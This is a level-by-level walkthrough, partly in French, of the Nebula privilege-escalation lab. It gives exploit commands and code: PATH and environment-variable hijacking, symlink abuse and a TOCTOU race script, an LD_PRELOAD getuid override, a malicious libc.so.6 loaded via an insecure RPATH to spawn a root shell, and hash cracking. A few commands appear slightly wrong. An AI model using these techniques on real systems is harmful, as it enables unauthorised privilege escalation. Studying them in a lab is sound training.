

# TD2 - Nebula

## Level 0
Run `find / -name "flag00" > flags.txt` to look for any file named flag00 on the server.

Running `/bin/.../flag00` will log you in.

## Level 1
Modify echo to be our custom version
``` bash
cd tmp

# -e to interpret control characters like \n or \t
echo -e '#!/bin/bash\ngetflag' > echo
chmod +x echo

# Add tmp to PATH
export PATH=/tmp:$PATH

# Now run the program
/home/flag01/flag01
```

## Level 2
Modify the USER environment variable
`export $USER=";/bin/bash;"`

## Level 3
Cron exécute en root les scripts dans `writable.d`

effectuer `getflag > /tmp/flag.txt; #chmod 777 /tmp/flag.txt`

## Level 4
Depuis level04, créer un symlink `ln -s ../flag04/token my_symlink`
puis lancer avec `../flag04/flag04 my_symlink`

## Level 5
Copier puis décompresser (`tar -xvzf`) la backup et utiliser
`ssh -i ~/.ssh/id_rsa flag05@nebula`

## Level 6
Check `/etc/passwd`, write flag06's credentials to `/tmp/hash.txt` and run `john hash.txt`

## Level 8

### Using Wireshark
- Use `ssh -p level08@localhost "cat /home/flag08/capture.pcap" > local_capture.pcap` to get the file out of the VM
- Open the file in wireshark then `right-click > Follow > TCP Stream`


### Using tcpdump
Run `tcpdump -A -r capture.pcap` for ASCII mode or
`tcpdump -X -r capture.pcap` for hexadecimal mode

> 7f represents a backspace, we get `backd00Rmate` as the password

## Level 10
Uses a TOC TOU Race condition exploit
We keep swapping between 2 symlinks to bypass the check 
Run 3 terminals
- Term 1: All in /tmp : Create a script `swap_ln`
``` bash
#!/bin/bash
while true; do
        ln -sf /tmp/dummy /tmp/exploit
        ln -sf /home/flag10/token /tmp/exploit
done
```
- Term 2: run `nc -lk 18211` (listen on port 18211) to read the token
- Term 3: `while true; do /home/flag10/flag10 /tmp/exploit 127.0.0.1; done`

> Solution : `615a2ce1-b2b5-4c76-8eed-8aa5c4015c27`, run su flag10 and paste it

## Level 11 (Hard)
- Gen new ssh key
- Run exploit and process in the same epoch second

## Level 13

Idea : Replace getuid function with ours
LD_PRELOAD Attack, overwrite libc's getuid with the one from mylib.so
Use the same arguments and return type.

``` c
#include <sys/types.h>
#include <unistd.h>

#define FAKEUID 1000

uid_t getuid(void){
        return FAKEUID;
}

```

Compile with (Position Independent Code) \
`gcc -shared -fPIC mygetuid.c -o mygetuid.so`

Run with `LD_PRELOAD="/tmp/mygetuid.so" ./flag13`
Copy the executable to remove setuid because it removes LD_PRELOAD

## Level 14
Increments padding everytime a character is encrypted
To decrypt, decrement by 1 for each character that has been encrypted
``` python
token="857:g67?5ABBo:BtDA?tIvLDKL{MQPSRQWW."

def decrypt(token:str) -> None:
    padding = 0
    for char in token:
        print(chr(ord(char)-padding), end="")
        padding += 1

decrypt(token)
```

Output should be flag14's password `8457c118-887c-4e40-a5a6-33a25353165`

## Level 15

`objdump -p flag10` returns info about the executable \
RPATH = Preferred path, here the directory /var/tmp/flag10 is unsecure
- Create an exploit.c to overwrite with our own libc!
Overwrite the `_libc_start_main` function with our own, then run
`system("/bin/sh")`

``` c
#include <stdlib.h>

int __libc_start_main(int (*main) (int, char * *, char * *), int argc, char * * ubp_av, 
                      void (*init) (void), void (*fini) (void), void (*rtld_fini) (void),
                      void (* stack_end)){
        system("/bin/sh");
        return 0;
}
```

Write into a `version` file 
```
GLIBC_2.0 { }
```

Compile with
`gcc -fPIC -shared -static-libgcc -Wl,--version-script=version,-Bstatic -o libc.so.6 mylib.c`

## Level 18
The program is a tiny shell
We notice that fopen has no checks and it has no fclose()
At most 1024 file descriptors, thus we can spam fopens until we loop back
to the file descriptor containing the password

## Level 19
First created process is called init, executed as root.

The OS forks it and runs exec in the child process to spawn new processes.

If we kill a parent, the orphaned process gets init as its new parent.


